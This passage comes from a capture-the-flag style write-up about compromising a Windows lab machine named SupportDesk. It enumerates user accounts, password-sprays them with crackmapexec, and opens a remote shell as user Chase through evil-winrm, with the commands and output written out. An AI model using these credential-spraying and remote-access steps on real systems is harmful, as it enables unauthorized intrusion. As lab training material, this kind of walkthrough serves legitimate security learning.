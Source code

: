 ```
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

Now, along with the default users we have found a couple more accounts on the machine. We can add all these names to our list of usernames and again pass them to `crackmapexec` along with the three passwords that we have, to see if we find a new pair of working credentials.

```
$ cat users                                      
rout3r
admin
hazard
Administrator
support
Chase
Jason

```

![crackmapexec2](./.images/crackmapexec2.png)

And there we found another pair of credentails for the user `Chase`. We can try to connect to the machine via WinRM using Chase's credentials.

```
$ evil-winrm -i 10.129.96.157 -u Chase
Enter Password: 
                                        
Evil-WinRM shell v3.5
                                        
*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
*Evil-WinRM* PS C:\Users\Chase\Documents> hostname
SupportDesk
*Evil-WinRM* PS C:\Users\Chase\Documents> cd ..
*Evil-WinRM* PS C:\Users\Chase> cd Desktop
*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt
```
